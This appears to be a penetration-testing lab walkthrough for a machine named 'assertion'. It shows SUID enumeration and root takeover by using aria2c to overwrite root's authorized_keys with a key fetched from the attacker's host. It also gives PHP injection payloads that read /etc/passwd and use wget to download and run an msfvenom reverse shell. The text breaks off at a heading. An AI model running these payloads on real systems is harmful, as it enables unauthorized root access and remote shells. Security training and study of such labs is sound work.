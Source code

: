 ## **Escalation**

### **Local Enumeration**

Let’s explore the SUID binaries.

```
www-data@assertion:/$ find / -perm -4000 2>/dev/nullfind / -perm -4000 2>/dev/null/usr/lib/openssh/ssh-keysign/usr/lib/eject/dmcrypt-get-device/usr/lib/policykit-1/polkit-agent-helper-1/usr/lib/dbus-1.0/dbus-daemon-launch-helper/usr/lib/snapd/snap-confine/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic/usr/bin/at/usr/bin/aria2c/usr/bin/newgrp/usr/bin/newgidmap/usr/bin/newuidmap/usr/bin/passwd/usr/bin/pkexec/usr/bin/sudo/usr/bin/chsh/usr/bin/traceroute6.iputils/usr/bin/gpasswd/usr/bin/chfn/bin/ping/bin/mount/bin/fusermount/bin/su/bin/umount...www-data@assertion:/$
```

Of particular note is the `/usr/bin/aria2c` executable, which is a command line download utility.We can use it to overwrite some important files.For example, we can use it to overwrite the root’s **authorized_keys** file.

Let’s start a web server in our local machine’s *.ssh* folder to get our public key on the remote machine.If you don’t have an SSH key pair created, you can use the `ssh-keygen` command.

```
kali@kali:~$ cd ~/.ssh/kali@kali:~/.ssh$ sudo python3 -m http.server 80Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then use `aria2c` to download it in the **authorized_keys** file.

```
www-data@assertion:/$ /usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.118.9/id_rsa.pub" --allow-overwrite=true<://192.168.118.9/id_rsa.pub" --allow-overwrite=true09/07 19:24:05 [NOTICE] Downloading 1 item(s)09/07 19:24:05 [NOTICE] Download complete: /root/.ssh//authorized_keysDownload Results:gid   |stat|avg speed  |path/URI======+====+===========+=======================================================32eb0a|OK  |   552KiB/s|/root/.ssh//authorized_keysStatus Legend:(OK):download completed.www-data@assertion:/$
```

We can now ssh to the machine as root.

```
kali@kali:~$ ssh root@192.168.120.218...root@assertion:~# iduid=0(root) gid=0(root) groups=0(root)root@assertion:~#
```

Focus：

URL//http://$ip/index.php?page=' and die(show_source('/etc/passwd')) or '

First (Msfvenom Payload)

```
#Create payload**msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf**#Wget into /tmp (Url Encoded)**' and die(system("wget 'http://<ip>/shell.elf' -O /tmp/shell.elf")) or '**#Run while use multi/handler**' and die(system("/tmp/shell.elf")) or '**
```

Second (Curl Php)
